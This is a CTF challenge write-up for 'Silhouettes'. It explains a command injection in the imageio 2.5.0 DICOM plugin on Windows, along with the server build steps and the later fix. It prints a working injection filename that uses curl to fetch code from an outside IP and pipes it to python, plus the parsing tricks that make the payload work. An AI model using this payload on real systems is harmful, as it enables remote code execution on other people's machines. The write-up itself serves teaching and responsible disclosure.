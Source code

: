 ## Challenge Information

- Name: Silhouettes
- Type: Web
- Description:

```
BGM: [American Football - Silhouettes](https://www.youtube.com/watch?v=-TcUvXzgwMY)
```

- Files provided: none
- Solves: 2 / 720

## Build

1. Amazon EC2 Windows Server 2019
2. [Install IIS and CGI](https://stackify.com/how-to-host-php-on-windows-with-iis/)
  - Web Server (IIS)
    - Ppen "Turn on or off Windows features"
    - Add roles and Features Wizard
    - next, next, next
    - Server roles -> choose "Web Server (IIS)"
    - Features -> next
    - Web server role (IIS) -> next
    - Role Service -> Application development -> CGI
    - Install

3. Install PHP 7.2 x64 via [Microsoft’s Web Platform Installer](https://www.iis.net/downloads/microsoft/web-platform-installer)
  - `wget https://download.microsoft.com/download/8/4/9/849DBCF2-DFD9-49F5-9A19-9AEE5B29341A/WebPlatformInstaller_x64_en-US.msi -O WebPlatformInstaller_x64_en-US.msi`
  - Open Web Platform Installer -> Products -> PHP 7.2.19(x64) -> I accept
  - The PHP Manager for IIS will fail to be installed. It's safe to ignore it.
4. [Enable "Load User profile"](https://stackoverflow.com/a/46535790) such that PHP can use system command.
  - Login to the Remote of your server (if you have access to it)
  - Open the IIS manager
  - Select -> Application Pools node underneath the machine node (left panel)
  - Right click on the desired domainname in the application pools -> Advanced settings
  - Scroll to Process Model
  - Set Load User Profile = True
  - stop and start the applicaiton.

5. Install the following external programs
  - [jpeg-bin](http://sylvana.net/jpeg-bin/jpg9cexe.zip): extract and place under C:\Windows\system32
  - [dcmtk](https://dicom.offis.de/dcmtk.php.en): install dcmtk via [chocolatey](https://chocolatey.org/), `choco install -y dcmtk`
6. Install Python and pip via `choco install -y python3` and `choco install -y pip`
  - It's safe to ignore `easy_install` failing message.
  - Start a new shell.
  - Install the imageio library `pip install imageio==2.5.0`
7. Put `index.php` and `getsize.py` in `c:\inetpub\wwwroot`
  - Delete other `iis*` files in the directory
8. Create a directory `C:\upload` and prevent user listing the content, but they can still upload images.
  - Right click -> properties -> security -> edit -> Users -> List folder contents -> Deny -> OK, yes, OK
9. Flag:
  - Run `craeteflag.py`
10. Permissions revist:
  - `C:/upload`
    - User: denied for list contents
11. Delete powershell history:
   - `cmd.exe /c del %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
   - clean all the file on desktop
   - clean the recycle bin


## Writeup

This is a 0-day challenge of a python library [imageio 2.5.0](https://github.com/imageio/imageio/).   

In one of the plugin of imageio, [imageio/plugins/dicom.py](https://github.com/imageio/imageio/blob/cfbd122442ff324e3a33fb0177b74505b369084e/imageio/plugins/dicom.py#L125-L131), is obviously vulnerable to command injection. 

```python
exe = get_dcmdjpeg_exe()
if not exe:
    raise
fname1 = self.request.get_local_filename()
fname2 = fname1 + ".raw"
try:
    subprocess.check_call([exe, fname1, fname2], shell=True)
```

However, passing a list with `shell=True` makes little sense in `check_call` API. The correct usage is either passing a list with `shell=False` (default), or a string with `shell=True`. Anyway, the behavior will be the following:

```
subprocess.check_call(['foo', 'bar', 'bazz'], shell=True)

# Windows
$ cmd.exe /c 'foo' 'bar' 'bazz'

# Linux
$ sh -c 'foo' 'bar' 'bazz'
```

In linux `sh` will ignore all the parameters after `foo`. You can try this in your shell `sh -c ls -all`. `sh -c ls -all` is identical as `sh -c ls`.

In Windows it's different, the parameters will be passed into the command. `cmd.exe /c ipconfig /all` is identical as `ipconfig /all`.

To exploit this, the system has to satisfy the following conditions:
1. `imageio <= 2.5.0`
2. Operation system is Windows-based.
3. `dcmdjpeg.exe` is installed. Otherwise it will not execute the vulnerable line due to `get_dcmdjpeg_exe()`.
4. The filename can be controlled by users.

You can find the full exploit in `exploit` directory.

#### Payload Explanation

The filename is `a&curl,@240.240.240.240:12345|python&`. Note the command line injection payload cannot contain space. It will be parsed as part of the command, not parameters.

The command executed will be:

```
cmd.exe /c dcmdjpeg.exe 'C:\upload\a&curl,@240.240.240.240:12345|python&' 'C:\upload\a&curl,@240.240.240.240:12345|python&.out'
```

Which is
```
dcmdjpeg.exe 'C:\upload\a&curl,@240.240.240.240:12345|python&' 'C:\upload\a&curl,@240.240.240.240:12345|python&.out' 
```

cmd.exe will parse it as different lines of commands by spliting `&`:

1. `dcmdjpeg.exe C:\upload\a`
2. `curl,@240.240.240.240:12345|python`
3. `C:\upload\a`
4. `curl,@240.240.240.240:12345|python`
5. `.out`

Though the second line does not seem to make sense, it will be parsed as follows:

```
curl ,@240.240.240.240:12345 | python
```

1. curl: The server is running Windows 10 server 2019. `curl` is presented......
2. Space: I found this is Windows's strange behavior. When the command includes a comma, it will be interpreted as the second parameters. That's why we don't need a space here.
3. `@`: The comma is not a valid character in URL, so we use `@` here to bypass it. The syntax is like `username:password@hostname:port`. You can refer to [Orange's slide](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf).
4. `|` pipe: `cmd.exe` on Windows 10 seems to support this feature.


## Postscript

In my opinion, designing a 1-day/0-day as a CTF challenge is dangerous and controversial, because making a public library exposed to vulnerability is irresponsible. That's why I was struggling whether to make this challenge or not. In the end, in consideration of the strict prerequisites of this RCE vulnerability, I decided to make this challenge.

I hope this challenge can encourage more people to dive into the source code bravely, because I feel like some beginners are afraid of reading the source code. That's why they are not able to solve some challenging problems.

> The force is with those who read the source. - [Isaac](https://poning.me/), founding member of Balsn

After the competition ends, I mailed to the developer of imageio. He [fixed it](https://github.com/imageio/imageio/pull/483) in just **3 hours and 42 minutes** and bumped the version to 2.6.0. It's incredibly fast!

